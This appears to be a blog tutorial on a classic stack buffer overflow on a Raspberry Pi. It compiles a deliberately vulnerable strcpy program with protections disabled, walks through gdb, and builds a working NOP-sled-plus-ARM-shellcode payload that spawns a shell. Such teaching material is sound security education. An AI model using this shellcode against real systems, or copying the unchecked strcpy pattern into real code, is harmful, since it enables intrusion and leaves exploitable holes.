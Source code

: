 ```yaml
---
layout: single
title: "ARM Exploitation with Raspberry Pi: Basic Stack Overflow"
header:
  image: "https://live.staticflickr.com/65535/49799517708_b32ef5ca7f_h.jpg"
  teaser: "https://live.staticflickr.com/65535/49799517708_b32ef5ca7f_h.jpg"
categories:
  - Security
tags:
  - Exploitation
  - Tutorial
  - ARM
  - Buffer Overflow
  - Raspberry Pi
toc: true
toc_label: "Table of Contents"
toc_icon: "heart"
---
```


In this post, we will exploit a vulnerable `C` program using basic `Stack Overflow` attack. Before starting reading this post you should read this post first:
[]()

## Example `C` Code
We will use the following code that uses a vulnerable function **`strcpy()`** function that does not check the limit of the content to be copied. 

Therefore, we can overflow the whole buffer and exploit the program by putting our shellcode there and calling it to be executed.
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// Function to test overflow
void IShouldNeverBeCalled() {
    puts("I should never be called");
    exit(0);
}

// This is our vulnerable function
void vulnerable(char *arg) {
    char buff[100];
    // to print return address
    printf("%p\n",&buff[0]);  
    strcpy(buff, arg);
}

// Pass argument in the vulnerable function
int main(int argc, char *argv[]) {
    vulnerable(argv[1]);
    return 0;
}
```

## Compilation
Assuming you have already disabled the ASLR, let's compile the code now:
```bash
$ gcc -fno-stack-protector -z execstack overflow.c -o overflow
```
Here we have disabled the stack protection (`-fno-stack-protector`) and enabled execution (`-z execstack`) within the stack.

## Debugging with `gdb`
Now, let's debug the code using **`gdb`**:
```
$ gdb -q ./overflow
```

Now, if we disassemble the main function, we will see an example disassembled code like below one:
```
gef➤  disass main
Dump of assembler code for function main:
   0x000104e4 <+0>:		push	{r11, lr}
   0x000104e8 <+4>:		add	r11, sp, #4
   0x000104ec <+8>:		sub	sp, sp, #8
   0x000104f0 <+12>:	str	r0, [r11, #-8]
   0x000104f4 <+16>:	str	r1, [r11, #-12]
   0x000104f8 <+20>:	ldr	r3, [r11, #-12]
   0x000104fc <+24>:	add	r3, r3, #4
   0x00010500 <+28>:	ldr	r3, [r3]
   0x00010504 <+32>:	mov	r0, r3
   0x00010508 <+36>:	bl	0x104b8 <vulnerable>
   0x0001050c <+40>:	mov	r3, #0
   0x00010510 <+44>:	mov	r0, r3
   0x00010514 <+48>:	sub	sp, r11, #4
   0x00010518 <+52>:	pop	{r11, pc}
End of assembler dump.
```

Now, let's put a breakpoint at address `0x0001050c` and run the program:
```
gef➤  b *0x0001050c
Breakpoint 1 at 0x1050c
```

As the buffer size is 100, the return address will be after 104th character. Now, let's put 104 character in total to overflow the buffer.
Therefore, we find the following error:
```
gef➤  run $(python -c 'print "A"*100+"BBBB"')
Starting program: /home/pi/remote_attestation/vulnerability_test/vuln_testbed/code/test@Roy/buf $(python -c 'print "A"*100+"BBBB"')

Program received signal SIGSEGV, Segmentation fault.
```

Because, we will use a `NOP sled` first, we need to know any starting address that points back to the NOP sled of the buffer. NOP stands for `No Operation` and it can be any harmless instruction or random binary. Therefore, we can look into the addresses following the instruction provided below:
```
gef➤  x/100x $sp-200
0x7efff3d8:	0x7efff49c	0x76fde10c	0x76ff97c8	0x00000001
0x7efff3e8:	0x00000001	0x00000000	0x00000000	0x76e7d224
0x7efff3f8:	0x0001051c	0x00000000	0x00010374	0x00000000
0x7efff408:	0x00000000	0x76fe5320	0x7efff434	0x7efff77c
0x7efff418:	0x0001051c	0x00000000	0x00010374	0x00000000
0x7efff428:	0x7efff598	0x7efff77c	0x00000000	0x41414141
0x7efff438:	0x41414141	0x41414141	0x41414141	0x41414141
0x7efff448:	0x41414141	0x41414141	0x41414141	0x41414141
0x7efff458:	0x41414141	0x41414141	0x41414141	0x41414141
0x7efff468:	0x41414141	0x41414141	0x41414141	0x41414141
0x7efff478:	0x41414141	0x41414141	0x41414141	0x41414141
0x7efff488:	0x41414141	0x41414141	0x41414141	0x41414141
0x7efff498:	0x42424242	0x00010500	0x7efff604	0x00000002
0x7efff4a8:	0x00000000	0x76e8f678	0x76fb4000	0x7efff604
0x7efff4b8:	0x00000002	0x000104e4	0x76ffecf0	0x7efff550
0x7efff4c8:	0xed78f5ef	0xe56ff76b	0x0001051c	0x00000000
0x7efff4d8:	0x00010374	0x00000000	0x00000000	0x00000000
0x7efff4e8:	0x76fff000	0x00000000	0x00000000	0x00000000
0x7efff4f8:	0x00000000	0x00000000	0x00000000	0x00000000
0x7efff508:	0x00000000	0x00000000	0x00000000	0x00000000
0x7efff518:	0x00000000	0x00000000	0x00000000	0x00000000
0x7efff528:	0x00000000	0x00000000	0x00000001	0x00000001
0x7efff538:	0x00001000	0x76fd89f8	0x00000000	0x7efff604
0x7efff548:	0x76fffb18	0x76fff960	0xffffffff	0x76fff000
0x7efff558:	0x76e85024	0x76ff94b0	0x7efff598	0x00000000
``` 

Now, let's target the address `0x7efff448`. We will use this address as the return address so that after copying the contents to the buffer, the return address points back to the NOP sled.

Now, let's exploit the program with our NOP sled, shellcode, and the return address. The payload looks like as follows:

```
payload = NOP sled + shellcode + return address
```
where,
```
NOP sled = "\xe1\xa0\x10\x01" (MOV R1, R1)
shellcode = "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x03\xa0\x52\x40\xc2\x71\x05\xb4\x69\x46\x0b\x27\x01\xdf\x2d\x1c\x2f\x62\x69\x6e\x2f\x73\x68\x58"
return address = "\x48\xf4\xff\x7e"
```
Note that we will have to put the instructions and the address from the opposite order (Little Endian). Except, here the shellcode already is in that format.

Now, let's use the payload for exploitation:
```
gef➤  run $(python -c 'print "\x01\x10\xa0\xe1"*17+"\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x03\xa0\x52\x40\xc2\x71\x05\xb4\x69\x46\x0b\x27\x01\xdf\x2d\x1c\x2f\x62\x69\x6e\x2f\x73\x68\x58"+"AAAA"+"\x48\xf4\xff\x7e"')
Starting program: /home/pi/remote_attestation/vulnerability_test/vuln_testbed/code/test@Roy/buf $(python -c 'print "\x01\x10\xa0\xe1"*17+"\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x03\xa0\x52\x40\xc2\x71\x05\xb4\x69\x46\x0b\x27\x01\xdf\x2d\x1c\x2f\x62\x69\x6e\x2f\x73\x68\x58"+"AAAA"+"\x48\xf4\xff\x7e"')
process 6637 is executing new program: /bin/dash
$ pwd
/home/pi/remote_attestation/vulnerability_test/vuln_testbed/code/test@Roy
$ 
```
So, we see, we have received the expected shell after running the command.

Here, the complete string looks like as follows:
```
\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x10\xa0\xe1\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x03\xa0\x52\x40\xc2\x71\x05\xb4\x69\x46\x0b\x27\x01\xdf\x2d\x1c\x2f\x62\x69\x6e\x2f\x73\x68\x58AAAA\x48\xf4\xff\x7e
```

## Run in terminal
Now, let's exploit the program outside the debugger. 
```bash
pi@raspberry:~$ ./overflow $(python -c 'print "\x01\x10\xa0\xe1"*17+"\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x03\xa0\x52\x40\xc2\x71\x05\xb4\x69\x46\x0b\x27\x01\xdf\x2d\x1c\x2f\x62\x69\x6e\x2f\x73\x68\x58"+"AAAA"+"\x48\xf4\xff\x7e"')

$ 
```
One thing you should rember is the return address usually changes outside the debugger because `gdb` loads environment variable in a different way.

So, use this line in your program to print the start address of the buffer first, then use the address as little endian.
```C
// to print return address
 printf("%p\n",&buff[0]);  
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbNDczNDU2NDMxXX0=
-->